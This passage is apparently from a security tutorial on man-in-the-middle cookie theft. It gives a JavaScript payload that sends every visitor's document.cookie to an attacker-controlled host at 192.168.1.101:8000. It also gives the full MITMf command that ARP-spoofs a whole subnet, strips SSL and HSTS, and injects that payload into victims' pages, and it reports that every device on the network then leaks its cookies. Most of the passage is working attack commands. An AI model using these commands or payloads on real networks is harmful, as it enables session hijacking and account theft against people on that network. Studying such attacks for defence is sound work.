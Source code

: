 > The injection module uses BeautifulSoup with simple html parser to find a document body and append the payload into it. If we've hosted our payload on some server, we could inject it automatically in an < iframe > tag after specifying the URL.

### Let’s change the payload to a different port:
```javascript
// payload.js  
new Image().src="http://192.168.1.101:8000/?xss="+document.cookie
```

### It is time for the framework to do the work for us.

```bash
sudo php -S 0.0.0.0:8000 -f index.php -t . &  
sudo mitmf -i wlp2s0 --inject --js-file /home/krystian/xss/payload.js --spoof --arp --hsts --netmask 192.168.1.0/24 --gateway 192.168.1.1
```

- **-i wlp2s0** - _Use interface_ **_wlp2s0_**
- **–inject –js-file /home/krystian/xss/payload.js** - _perform javascript injection on a stripped content_
- **–spoof** - _spoof the packets_
- **–hsts** - _try to strip SSL_ and HSTS
- **–netmask 192.168.1.0/24** - _set network mask_
- **–gateway 192.168.1.1** - _set the gateway_

## **_After a while, we could notice that every single device on the network sends us cookies from most of the HTTP requests they’ve sent._**

---

[![Successfull MiTM cookie sniffing](images/ss9.png)](images/ss9.png "Successfull MiTM cookie sniffing")Successful MITM cookie sniffing
